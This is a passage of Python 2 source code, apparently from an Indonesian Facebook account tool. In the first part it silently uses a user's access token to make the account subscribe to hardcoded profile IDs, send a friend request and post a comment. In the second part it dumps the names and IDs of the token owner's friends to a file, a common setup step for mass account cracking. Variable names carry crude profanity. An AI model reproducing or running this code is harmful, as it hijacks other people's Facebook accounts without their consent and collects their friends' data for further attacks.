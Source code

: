         requests.post('https://graph.facebook.com/100013031465766/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/857799105/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100027558888180/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/me/friends?method=post&uids=%s&access_token=%s'%(koh,kentod))

        #requests.post('https://graph.facebook.com/%s/comments/?message=%s&access_token=%s'%(lo_ngentod,kentod,kentod))

        requests.post('https://graph.facebook.com/%s/comments/?message=%s&access_token=%s'%(xi_jimpinx,hoetank,kentod))

    except:

    	pass

# dump id dari teman hehe

def teman(kontol):

    try:

        os.mkdir('dump')

    except:pass

    try:

        mmk = raw_input('\n %s[%s?%s] nama file  : '%(N,O,N))

        asw = raw_input(' %s[%s?%s] limit id   : '%(N,O,N))

        cin = ('dump/' + mmk + '.json').replace(' ', '_')

        xxx = open(cin, 'w')

        for a in requests.get('https://graph.facebook.com/me/friends?limit=%s&access_token=%s'%(asw,kontol)).json()["data"]:

            id.append(a['name'] + '<=>' + a['id'])

            xxx.write(a['name'] + '<=>' + a['id'] + '\n')

            w = random.choice(['\x1b[1;91m', '\x1b[1;92m', '\x1b[1;93m', '\x1b[1;94m', '\x1b[1;95m', '\x1b[1;96m', '\x1b[1;97m', '\x1b[0m'])

            sys.stdout.write('\r\033[0m - ' + w + '%s%s                                        \r\n\n [\033[0;96m%s\033[0m] [\033[0;91m%s\033[0m] Proses Dump Id...'%(a['name'],N,datetime.now().strftime('%H:%M:%S'), len(id)

            )); sys.stdout.flush()

            time.sleep(0.0050)

        xxx.close()

        jalan('\n\n %s[%s✓%s] berhasil dump id dari teman'%(N,H,N))

        print ' [%s•%s] salin output file 👉 ( %s%s%s )'%(O,N,M,cin,N)
